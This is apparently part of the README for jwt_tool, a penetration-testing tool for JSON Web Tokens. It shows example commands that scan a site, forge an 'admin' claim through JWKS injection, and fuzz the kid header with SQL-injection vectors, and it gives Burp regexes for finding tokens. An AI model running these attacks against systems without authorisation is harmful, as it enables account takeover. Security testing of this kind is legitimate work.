 ### Scanning:
Run a ***Playbook Scan*** using the provided token directly against the application to hunt for common misconfigurations:  
`$ python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -M pb`  

### Exploitation:
If any successful vulnerabilities are found change any relevant claims to try to exploit it (here using the *Inject JWKS* exploit and injecting a new username):  
`$ python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin` 

### Fuzzing:
Dig deeper by testing for unexpected values and claims to identify unexpected app behaviours, or run attacks on programming logic or token processing:  
`$ python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -I -hc kid -hv custom_sqli_vectors.txt`  

### Review:
Review any successful exploitation by querying the logs to read more data about the request and :  
`$ python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`   

---

### Help
For a list of options call the usage function:
Some options such as Verifying tokens require additional parameters/files to be provided:  
`$ python3 jwt_tool.py -h`

**A more detailed user guide can be found on the [wiki page](https://github.com/ticarpi/jwt_tool/wiki/Using-jwt_tool).**

---

## JWT Attack Playbook - new wiki content!  
![playbook_logo](https://user-images.githubusercontent.com/57728093/68797806-21f25700-064d-11ea-9baa-c58fb6f75c0b.png)

Head over to the [JWT Attack Playbook](https://github.com/ticarpi/jwt_tool/wiki) for a detailed run-though of what JWTs are, what they do, and a full workflow of how to thoroughly test them for vulnerabilities, common weaknesses and unintended coding errors.

---

## Tips
**Regex for finding JWTs in Burp Search**  
*(make sure 'Case sensitive' and 'Regex' options are ticked)*  
`[= ]eyJ[A-Za-z0-9_-]*\.[A-Za-z0-9._-]*` - url-safe JWT version  
`[= ]eyJ[A-Za-z0-9_\/+-]*\.[A-Za-z0-9._\/+-]*` - all JWT versions (higher possibility of false positives)

---